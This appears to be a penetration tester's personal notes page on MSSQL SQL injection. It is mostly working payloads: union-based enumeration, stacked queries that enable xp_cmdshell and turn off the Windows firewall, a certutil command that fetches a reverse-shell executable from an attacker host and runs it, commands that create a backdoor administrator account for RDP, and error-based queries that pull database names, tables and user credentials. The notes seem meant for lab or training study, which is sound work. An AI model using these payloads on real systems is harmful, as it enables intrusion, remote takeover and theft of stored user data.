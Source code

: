 #### SQLi GUIDE


[https://www.exploit-db.com/papers/12975](https://www.exploit-db.com/papers/12975)

[https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/](https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/)

[http://www.securityidiots.com/Web-Pentest/SQL-Injection/mssql-insert-query-injection.html](http://www.securityidiots.com/Web-Pentest/SQL-Injection/mssql-insert-query-injection.html)

---
   
#### Union Based attack
From here we can observe that there are likely 3 columns, Name, Title, and Year. 

Let's try to find out the number of columns using "order by" clause:

```sql
' order by 1--
```
no error message

```sql
' order by 5--
```
error message

```sql
' order by 4--
```
error message

```sql
' order by 3--
```
error message

```sql
' order by 2--
```
no error message

So as of now we know that 2 is the last column which worked, let us prepare the union select statement

  
```sql
' union select 1,2--
```

```sql
' union select null,null--
```

```sql
' union select '1111',null--
```

```sql
' union select null,'2222'--
```
  
```sql
' union select user,null--
```
  
```sql
' union select @@version,null--
```

```sql
' union select db_name(),null --
```

#### Code execution
```sql
' union select user,null; WAITFOR DELAY '0:0:5' ; --
```

This works, as it takes five seconds for the page to load, and still displays that our SQL code executed. Now, we'll start stacking in other commands from the resource to continue.

```sql
' union select user,null; EXEC sp_configure 'show advanced options', 1; WAITFOR DELAY '0:0:5' ; --
```

Enable xp_cmdshell:
```sql
' union select user,null; RECONFIGURE; --
```

```sql
' union select user,null; EXEC sp_configure 'xp_cmdshell', 1; --
```

```sql
' union select user,null; RECONFIGURE; --
```

Disable Firewall:
```sql
' union select user,null; exec master..xp_cmdshell 'netsh advfirewall set allprofiles state off'; --
```

#### MSSQL reverse shell
[[1._Reverse Shells (WIN)]]

[[4._File Transfers]]

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```
' union select user,null; exec master..xp_cmdshell 'certutil -urlcache -split -f http://$KALI/reverse64.exe'; --
```

![[rlwrap]]

```
' union select user,null; exec master..xp_cmdshell 'reverse64.exe'; --
```

#### MSSQL RDP access
Add foobar as a new user:
```sql
' union select user,null; exec master..xp_cmdshell 'net user foobar pass123 /add'; --
```

Add foobar to Administrators group
```sql
' union select user,null; exec master..xp_cmdshell 'net localgroup Administrators foobar /add'; --
```

Rdesktop as foobar:
```bash - kali
rdesktop $TARGET -u foobar -p pass123 -g 1024x768 -x 0x80
```

---

#### Error Based attack

```sql
1 AND 1=CONVERT(INT,@@version)--
```

In our example, we used ', to trigger the exploit.
```sql
',=CONVERT(INT,@@version)--
```

Extract number of databases:
```sql
 ',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT([name]) AS nvarchar(4000)) FROM [master]..[sysdatabases] )+CHAR(58)+CHAR(58))))--
```

Extract database names (replace N with a number starting from 1):
```sql
',=CONVERT(INT,db_name(N))--
```

```sql
',=CONVERT(INT,(SELECT CAST(name AS nvarchar(4000)) FROM master..sysdatabases WHERE dbid=N))--
```

Extract table count:
```sql
 ',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM information_schema.TABLES )+CHAR(58)+CHAR(58))))--
```

Extract table names (replace N with a number starting from 1):
  
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top 1 TABLE_NAME FROM information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58))))--
```

To extract column names (replace TABLE_NAME string with appropriate table name found above):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 1 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='users' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```

Enumerate through by changing "top ==1== column_name..." "top ==2== column_name..." "top ==3== column_name..." and so on.
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 2 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='users' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```

To extract data, first count the entries in the table (replace table1 with appropriate table name):  
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM users)+CHAR(58)+CHAR(58))))--
```

Then, assuming the columns we wish to extract from are called column1 and column2:
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 email+CHAR(58)+user_id FROM (SELECT top 1 email, user_id FROM users ORDER BY email ASC) sq ORDER BY email DESC)+CHAR(58)+CHAR(58))))--
```

Extract tables from another database (change other_database and increase N):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top 1 TABLE_NAME FROM archive.information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58))))--
```

Extract columns from another database (change other_database, other_table and increase N):
```sql
',CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 column_name FROM (SELECT DISTINCT top 1 column_name FROM archive.information_schema.COLUMNS WHERE TABLE_NAME='pmanager' ORDER BY column_name ASC) sq ORDER BY column_name DESC)+CHAR(58))))--
```

See how many data entries there are in another database (change other_database and other_table):
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM [archive]..[pmanager] )+CHAR(58)+CHAR(58))))--
```

Extract data from another database (change other_database, other_table, other_column and increase N):
```sql
',CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 alogin FROM (SELECT top 1 alogin FROM archive..pmanager ORDER BY alogin ASC) sq ORDER BY alogin DESC)+CHAR(58)+CHAR(58))))--
```

